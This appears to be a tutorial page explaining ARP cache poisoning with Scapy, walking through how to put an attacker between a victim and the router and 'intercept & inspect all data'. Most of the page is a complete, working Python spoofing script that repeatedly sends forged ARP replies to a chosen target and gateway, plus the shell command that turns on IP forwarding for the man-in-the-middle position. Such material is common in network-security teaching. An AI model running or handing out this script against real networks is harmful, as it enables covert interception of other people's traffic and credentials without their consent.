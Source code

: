 ```yaml
---
title: "Arp cache poisoning"
date: 2019-01-06
# geekdocFlatSection: false
# geekdocToc: 6
# geekdocHidden: false
---
```


With Scapy you can easily send crafted ARP reply packets. The idea is to constantly send the victim ARP replies telling it we are the router.  
We do the same for the router, we tell it we are the victim machine. After we become the man in the middle we can intercept & inspect all data...

To allow forwarding of packets between the victim and the gateway we need to enable ip_forward:

```Shell
echo '1' > /proc/sys/net/ipv4/ip_forward
```

The function get_mac sends arp request message ("Who has") to the broadcast address, so all clients on the LAN receive it,  
we will get the correct mac address back from the target_ip.  

Now that we have the correct mac address from the target we can start sending spoofed reply packets with spoof function ('target_ip' <b>is at</b> 'attacker mac address')   

![arp reply 1](1at.png)

and

![arp reply 2](18at.png)

The full code:  

```python
#!/usr/bin/env python
import scapy.all as scapy
import time
import argparse

def get_arguments():
    parser = argparse.ArgumentParser()
    parser.add_argument("-t", "--target", dest="target",
                        help="Target IP")
    parser.add_argument("-g", "--gateway", dest="gateway",
                        help="Gateway IP")
    options = parser.parse_args()
    return options

# Get target mac address using ip address
def get_mac(ip):
    arp_request = scapy.ARP(pdst=ip)
    broadcast = scapy.Ether(dst="ff:ff:ff:ff:ff:ff")
    arp_request_broadcast = broadcast/arp_request
    answered_list = scapy.srp(arp_request_broadcast, timeout=1,
                              verbose=False)[0]
    return answered_list[0][1].hwsrc

# Change mac address in arp table
def spoof(target_ip, spoof_ip):
    target_mac = get_mac(target_ip)
    packet = scapy.ARP(op=2, pdst=target_ip, hwdst=target_mac,
                       psrc=spoof_ip)
    scapy.send(packet, verbose=False)

# Restore mac address in arp table
def restore(dest_ip, source_ip):
    dest_mac = get_mac(dest_ip)
    source_mac = get_mac(source_ip)
    packet = scapy.ARP(op=2, pdst=dest_ip, hwdst=dest_mac,
                       psrc=source_ip, hwsrc=source_mac)
    scapy.send(packet, count=4, verbose=False)

options = get_arguments()
sent_packets_count = 0
try:
    while True:
        spoof(options.target, options.gateway)
        spoof(options.gateway, options.target)
        sent_packets_count = sent_packets_count + 2
        print("\r[+] ARP spoofing started - packets sent: " + str(sent_packets_count))
        time.sleep(2)
except KeyboardInterrupt:
    print("\nCTRL+C pressed .... Reseting ARP tables. Please wait")
    restore(options.target, options.gateway)
    restore(options.gateway, options.target)
    print("\nARP table restored. Quiting")

```
